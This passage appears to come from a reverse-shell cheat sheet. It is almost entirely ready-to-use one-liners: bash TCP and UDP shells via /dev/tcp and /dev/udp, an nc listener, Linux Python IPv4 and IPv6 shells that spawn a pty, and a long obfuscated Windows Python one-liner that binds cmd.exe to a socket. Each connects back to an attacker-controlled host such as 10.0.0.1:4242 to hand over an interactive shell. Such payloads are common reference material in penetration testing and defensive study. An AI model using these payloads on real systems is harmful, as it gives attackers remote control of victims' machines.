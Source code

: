 - 0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196



#### Bash UDP

- Victim:
        sh -i >& /dev/udp/10.0.0.1/4242 0>&1

- Listener:
        nc -u -lvp 4242

> Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

### Python


#### Linux only

- IPv4

         export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

- IPv4

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

- IPv6

        python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- Windows only

        C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
